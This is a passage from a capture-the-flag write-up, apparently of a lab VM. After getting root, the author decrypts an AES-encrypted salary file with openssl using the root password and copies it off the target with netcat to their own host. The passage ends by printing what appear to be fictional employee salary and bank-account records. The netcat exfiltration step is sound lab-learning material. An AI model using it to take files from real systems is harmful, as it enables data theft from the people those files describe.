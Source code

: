 And i got root!
I remembered that i wasn't able to get into the folder of ftp in the /home/ directory so i went into there.
I found another folder called 'incoming', and went into there.
In there i found a file, with the name 'salary_dec2003.csv.enc'.
`.enc` is something new to me, so i did a hexdump of it.
```
00000000: 5361 6c74 6564 5f5f 6e12 2080 82f2 b804  Salted__n. .....
00000010: 31ff 9cf2 4c77 2441 60d2 1ea7 8669 4d7e  1...Lw$A`....iM~
00000020: 8c37 d49d 1113 cb7e f0b7 0f1a 67a9 9a01  .7.....~....g...
```
I wanted to see what file this is but `file` said it was just data.
So i googled what `Salted__n` meant and found that it was aes-128-cbc encryption, and that i could decrypt it with openssl.
So i did:
```
openssl aes-128-cbc -d -in salary_dec2003.csv.enc -out salary_dec2003.csv
```
And it asked for a password.
I tried it without password but it seemed to be broken after that.
When that failed i thought of bruteforcing the password and spent around an hour trying to make a script to do it. It didn't work so i retraced everything i did and saw the warning again in the `/etc/passwd` file.
So i tried the password of root with the decryption and it worked.
I transfered the file over to my own machine using netcat:
```
nc -lp 31337 > salary_dec2003.csv
```
```
nc 192.168.1.69 31337 < salary_dec2003.csv
```
And viewed the contents of the file:
```
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),Social Security Tax (Percentage),Medicare Tax (Percentage),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
,8,Ester Long,"$92,500.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1776782
,9,Adam Adams,"$76,250.00",1,5,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2250900
,10,Chad Coffee,"$55,000.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1590264
,11,,,,,,,,,0.00%,,,$0.00,0,0
,12,,,,,,,,,0.00%,,,$0.00,0,0
```